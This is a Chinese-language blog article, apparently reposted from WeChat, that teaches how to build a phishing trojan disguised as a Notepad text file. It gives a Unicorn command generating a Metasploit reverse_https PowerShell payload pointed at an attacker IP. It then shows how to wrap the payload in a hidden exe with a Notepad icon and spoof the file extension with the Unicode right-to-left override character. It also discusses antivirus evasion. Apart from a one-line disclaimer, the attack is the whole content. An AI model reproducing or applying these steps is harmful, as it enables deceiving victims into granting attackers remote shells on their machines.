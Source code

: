 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/stD0-yf4IGrFBBtFJDoFkQ)

左侧的文件是真实文本文件。右边的文件是 PowerShell 有效负载，两者看起来基本一模一样，可以看到都是. txt 的文件名。打开我们的木马文件跟我们打开笔记本应用没有任何分别。

但是我们的木马在后台悄悄执行了。CS MSF 等等 C2 正常上线。

![](https://mmbiz.qpic.cn/sz_mmbiz_gif/nzxUaDY8yDBia8RY5P4564fCEH4ne6icuev8XSHnlxP7duOlI9epGrQvNjwx6Gfu159fhRdyPxVUNkmficTibDP31w/640?wx_fmt=gif)

1\. 生成 shellcode
----------------

1\. 我们使用 CS MSF 等等 C2 生成的 powershell 等 shellcode.

这里使用 MSF 演示。然后为了方便免杀，我们联动一个名为 Unicorn 的工具来生成 shellcode 吧。

Unicorn 工具的主要作用是将复杂的 shellcode 有效负载直接注入内存。这样能达到一些免杀的作用。

在 kali 中使用 git clone github.com/trustedsec/unicorn 克隆 Unicorn GitHub 存储库。

进入 Unicorn 文件目录, 然后

```
./unicorn.py windows/meterpreter/reverse\_https 192.168.50.146 4444
```

Unicorn 将使用 Metasploit reverse\_https 模块通过指定的端口连接到攻击者的 IP 地址。  

会生成一个 powershell 的 shellcode 文件. txt 和一个 MSF 的配置文件. c

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBia8RY5P4564fCEH4ne6icueHs32qVgKmDrylcQbDaGmIyeg9YWg7aEIdicXEAwsXmic08q7Z2feiamdw/640?wx_fmt=png)

把生成的 unicorn.c 文件导进 MSF 中打开  

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBia8RY5P4564fCEH4ne6icuewsJmsdreNT2Zs3uicxoYF1RjUkrGyyS34XgbGd7V4tYnl8v0xy7P6DA/640?wx_fmt=jpeg)  

MSF 会自动配置监听和其他配置。  

我们看看原始的 Uniocrn 生成 shellcode 的免杀情况

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBia8RY5P4564fCEH4ne6icuegDUCnhjLVy1Jf5lZqWVroJ0ncmCVnVBKMxgmUQeJno9dOJ9vNkbT7w/640?wx_fmt=png)

还不错，其实这个 shellcode 直接使用也能上线的。但是我们的目的不是这个。

但是我们是钓鱼，钓鱼就一些迷惑的东西。将先前创建的 PowerShell 有效负载移至 Windows 系统，并另存为 payload.bat  

我们去 https://github.com/B00merang-Project/Windows-10-Icons’下载 Windows 10 图标。

在 kali 中就使用 git 下载吧

```
git clone'https://github.com/B00merang-Project/Windows-10-Icons
```

该文件中可能不包含内置 Windows 10 图标的确切副本，但是看起来足够接近，可以很好地利用。也可以在网上设计图标或找到更好的图标

2\. 将 PNG 转换为 ICO 格式
--------------------

PNG 将需要转换为 Windows ICO 图标格式。可以使用在线工具（如 ConvertICO）完成此操作。只需将所需的 PNG 上传到网站，它将以 ICO 格式输出。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBia8RY5P4564fCEH4ne6icuezC1kNKdYnP86gZtcww5sb7paVic2vmyAQT2Y4vnGSOU7sIvalcibTvIg/640?wx_fmt=png)  

这里我们使用的是记事本的图标。

安装 BAT2EXE  

在 Windows 中，访问以下 URL 以下载 B2E。

```
https://github.com/tokyoneon/B2E/raw/master/Bat\_To\_Exe\_Converter.zip
```

解压缩下载文件，然后运行 “Bat\_To\_Exe\_Converter\_（Installer）.exe” 文件进行安装。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBia8RY5P4564fCEH4ne6icuetSDoTWflicHLkkCvicTFlge3y6yrB7lLHJZcOIhRRjp3lUhjuFDtVBvg/640?wx_fmt=png)

导入有效负载 BAT
----------

完成后，启动 B2E，然后单击 “打开” 按钮以导入之前创建的 payload.bat。

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBia8RY5P4564fCEH4ne6icueZicDGsbgp60mJzpE5Pnm4H0mBcrCibtjVnM3k9NAmmpp8gkOtichcmFuw/640?wx_fmt=jpeg)

导入木马有效载荷
--------

然后，将单词 “notepad” 添加到 payload.bat 的顶部，然后单击“保存”。在执行 PowerShell 有效负载之前，这将使可执行文件在 Windows 计算机上打开记事本。这样做会使目标用户相信他们刚刚单击的文件确实是合法的文本文件。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBia8RY5P4564fCEH4ne6icuepqZNocviaepfvtd9Q67JFiauAxJvD88Y2jKBViaaZaAlM9USXthXo5ciaw/640?wx_fmt=png)

转换和导出有效载荷
---------

完成后，选中 “Icon” 选项将其启用，然后使用 “ …” 按钮导入在上一步中创建 ico 图标。然后，将 _Exe 格式_更改为 “64 位 Windows |（不可见）”，以防止在目标用户打开文件时弹出任何终端。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBia8RY5P4564fCEH4ne6icueZv4uQ3L6hicmot4EneJgRXuOIwHesAMLDib62iaULeuhPbI9HwwmfTNhA/640?wx_fmt=png)

单击 “转换” 按钮以创建 EXE，然后将文件名另存为 txt.exe。

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBia8RY5P4564fCEH4ne6icue2ADYOI0583F03wF44bibVFQwpkI2JZxGdCYyYibibfUvRzYIUiceak6RjQ/640?wx_fmt=jpeg)

在将 txt.exe 保存到桌面并将其放置在真实文本文件旁边之后

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBia8RY5P4564fCEH4ne6icueFiaFSojEfENMpicDv5VBUf5kpUVBib4zt4y4vYxm6CribLIxycs0lPCXqw/640?wx_fmt=jpeg)

ok 图标一样了，但是我们可以看到我们的木马文件是. exe 的，正常的文件是. txt 的。我们处理一下。

使用 Unicode 欺骗文件扩展名
------------------

使用称为 “从右到左覆盖”（RLO）（https://unicode-table.com/en/202E/）的 Unicode 字符来反转字符在文件名中的显示顺序。

看视频吧。。打字好累。。。

ok，成功返回 shell，视频中可以看到我们的木马跟正常的 txt 文件是一样的，也可以输入文字。我们来看看木马的免杀。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBia8RY5P4564fCEH4ne6icueDFIUu2hPkquexG0nuXlzsLPyA88QQtQAIfFCER8wdFxPnyT1ib5LFGw/640?wx_fmt=png)

7 个，他妈的，问题不大，回去修修改改就可以，这里主要分享思路。

**仅供安全学习，请不要非法攻击。**

渗透测试 红队攻防 免杀 权限维持 等等技术 

及时分享最新漏洞复现以及 EXP 国内外最新技术分享!!!

进来一起学习吧

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDC1QHAC8PAV6JaPBJno5cRxvqAVB1pm0tOZd3TQM7jCB5nTbnfa40GHHQFIWpFFRuHCCCdtykVQWQ/640?wx_fmt=jpeg)